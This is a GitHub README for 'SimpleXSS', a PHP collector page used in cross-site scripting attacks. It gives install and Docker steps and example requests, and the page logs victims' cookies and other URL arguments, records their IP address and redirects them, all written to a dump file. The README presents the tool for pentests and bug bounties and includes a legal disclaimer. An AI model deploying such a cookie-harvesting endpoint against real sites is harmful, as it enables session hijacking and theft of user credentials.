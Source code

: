 # Simple XSS [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/SimpleXSS/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

Simple index.php template to perform XSS attack.

### Features
* Record each URL args
* Record client IP
* Instant redirection (static or dynamic)

### Prerequisites
* Web server (apache2, nginx, ...)
* PHP

### Installing
**1.** Get the sources
```bash
git clone https://github.com/bambish/SimpleXSS
```

**2.** Move index.php in the web server root dir.
```bash
mv SimpleXSS/index.php /var/www/html
```
*Adapt the path if you don't use apache2*

### Usage
* Basic usage: **cookies**=12345&**arg**=67890
```http
http://127.0.0.1/index.php?cookies=12345&arg=67890
```
*You can use every `arbitrary args name`*

* Dynamic redirection: **redirect**=http://arbitrarywebsite.com/
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
```
*You can `change or disable` the `default redirection` by editing or comment `$staticredirection` var in `index.php`*
*You can force the static redirection if you set `$allowgetredirection` to false in index.php*

* Write in specific dump file: **dumpfile**=arbitraryfile.txt
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
```
*Be shure your `web server` have the right `access to create and edit` files at the root dir*
*The default dump file is `dumpfile.txt`*

### Deploy with Docker
```
docker run -dit --name XSS -v /path/to/host/web/root/dir/:/var/www/html/ --publish 80:80 fauria/lamp
```
*Adapt the root dir path if you don't use apache2 and give write access to your docker container*

### Warning
This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
Using this XSS template against web site **without authorization** is **forbidden**. 

I'm not responsible of your usage of this XSS template.
**At your own risk**.